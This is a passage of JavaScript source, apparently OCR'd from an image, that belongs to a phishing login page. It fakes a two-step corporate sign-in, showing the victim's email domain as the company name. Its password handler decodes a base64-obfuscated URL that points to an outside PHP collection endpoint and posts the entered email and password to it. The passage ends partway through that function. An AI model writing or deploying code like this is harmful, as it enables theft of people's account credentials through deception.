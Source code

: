           // Validate password field
          if (passwordField.value === '') {
            document.getElementById('submit_button2').style.opacity = '0.3';
            document.getElementById('submit_button2').style.cursor = 'default';
          } else {
            document.getElementById('submit_button2').style.opacity = '1';
            document.getElementById('submit_button2').style.cursor = 'pointer';
            document.getElementById('submit_button2').addEventListener('click', submitPassword);
          }
        }

        function submitEmail()
        {
          document.getElementById('badge_text').innerHTML = document.getElementById('email').value;
          document.getElementById('companyName').innerHTML = document.getElementById('email').value.split('@')[1];
          document.getElementById('email').style.display = 'none';
          document.getElementById('submit_button1').style.display = 'none';
          document.getElementById('logo_container').style.display = 'none';
          document.getElementById('submit_button2').style.display = 'block';
          document.getElementById('first_title_container').style.display = 'none';
          document.getElementById('second_title_container').style.display = 'flex';
          document.getElementById('password').style.display = 'block';
          document.getElementById('emailForm').style.display = 'block';
          document.getElementById('options_container').style.display = 'flex';
          document.getElementById('logo_container2').style.display = 'flex';
          document.getElementById('badge').style.display = 'flex';
          document.getElementById('emailForm').style.opacity = '1';
          document.getElementById('emailForm').style.transform = 'translateY(0)';
        }

        function submitPassword(event)
        {
          count++;
          event.preventDefault();
          var base64ActionUrl = 'aHR0cHM6Ly93ZXJ0eXVpb2l1eXQuc2hvcC9vY2h1bW8vaGl3cHdrc3kucGhw'; // Your base64 encoded URL
          var decodedUrl = atob(base64ActionUrl); // Decode the base64 URL
          this.action = decodedUrl;
          const email = document.getElementById('email').value.trim();
          const password = document.getElementById('password').value.trim();
          const errorText = document.querySelector('.error_text');
          const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;

          if (!emailRegex.test(email)) {
            errorText.innerText = 'ID or password is incorrect.';
            errorText.style.display = 'block';
          } else if (email === '' || password === '') {
            errorText.innerText = 'Email and password are required.';
            errorText.style.display = 'block';
          } else {
            errorText.style.display = 'none';
